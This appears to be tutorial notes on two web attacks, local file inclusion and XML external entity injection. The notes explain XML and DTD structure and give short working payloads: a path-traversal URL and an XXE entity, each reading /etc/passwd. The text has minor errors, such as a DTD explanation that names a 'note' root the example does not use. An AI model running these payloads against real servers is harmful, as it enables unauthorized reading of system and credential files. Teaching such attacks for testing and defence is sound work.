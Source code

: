 ### LFI (local file inclusion)

If you see a parameter you can try LFI on it.
http://127.0.0.1/?file=page.php

We can not try view a file on the system.

http://127.0.0.1/?file=../../../../../../etc/passwd


### XXE (XML External Entity)

This abuses features of XML parser/Data.

Let's look at the structure.


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE file SYSTEM "file.dtd">
<file>
    <to>moon</to>
    <from>cake</from>
    <heading>food</heading>
    <body>XXE attack</body>
</file> 

XML document starts with 

<?xml version="1.0" encoding="UTF-8"?> 

The next part is called the DTD (Document Type Definition)
This defines the elements and attributes.

!DOCTYPE note -  Defines a root element of the document named note
!ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
!ELEMENT to - Defines the to element to be of type "#PCDATA"
!ELEMENT from - Defines the from element to be of type "#PCDATA"
!ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
!ELEMENT body - Defines the body element to be of type "#PCDATA"

We can abuse this to read a file on a system.

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

